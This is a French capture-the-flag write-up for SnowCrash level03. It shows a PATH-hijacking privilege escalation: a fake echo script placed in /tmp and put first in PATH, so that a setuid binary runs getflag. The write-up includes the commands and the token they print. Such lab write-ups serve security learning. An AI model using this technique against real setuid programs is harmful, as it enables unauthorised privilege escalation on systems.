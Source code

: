 # Recherche des fichiers disponibles

Avec la commande ls on trouve le binaire **level03** dans le home de l'utilisateur **level03**.

```bash
level03@SnowCrash:~$ ls
level03
```

En décompilant le binaire via le site [dogbolt](https://dogbolt.org)
On observe : `return system("/usr/bin/env echo Exploit me");`

Ce code utilise /usr/bin/env pour exécuter la commande echo. Cela signifie que le système va rechercher le binaire echo dans les chemins définis dans la variable d’environnement $PATH.

Une première idée aurait été de remplacer directement /bin/echo par /bin/getflag, afin d'exécuter getflag à la place :

```bash
level03@SnowCrash:~$ mv /bin/getflag /bin/echo
mv: try to overwrite `/bin/echo', overriding mode 0755 (rwxr-xr-x)? y
mv: cannot move `/bin/getflag' to `/bin/echo': Permission denied
```

Cette méthode échoue car l'utilisateur level03 ne possède pas les droits suffisants pour modifier les fichiers système.

On crée alors un faux binaire echo dans un répertoire temporaire, qui exécute simplement /bin/getflag

```bash
level03@SnowCrash:~$ mkdir -p /tmp/t
level03@SnowCrash:~$ echo /bin/getflag > /tmp/t/echo
level03@SnowCrash:~$ chmod +x /tmp/t/echo
```

Puis on modifie la variable $PATH pour que notre faux echo soit prioritaire :
```bash
level03@SnowCrash:~$ export PATH=/tmp/t:$PATH
```

En lançant le binaire level03, notre faux echo est utilisé, ce qui déclenche l’exécution de getflag
```bash
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
